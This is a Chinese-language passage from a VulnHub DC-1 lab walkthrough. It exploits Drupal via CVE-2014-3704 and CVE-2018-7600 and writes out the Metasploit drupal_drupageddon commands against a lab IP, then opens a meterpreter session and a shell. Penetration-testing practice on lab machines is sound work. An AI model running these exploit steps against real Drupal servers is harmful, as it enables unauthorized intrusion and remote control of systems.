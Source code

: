 漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web安全/Web_CVE漏洞记录.md#Drupal)

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135
run
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/2.png)

可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功,就不一一展示了

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/3.png)
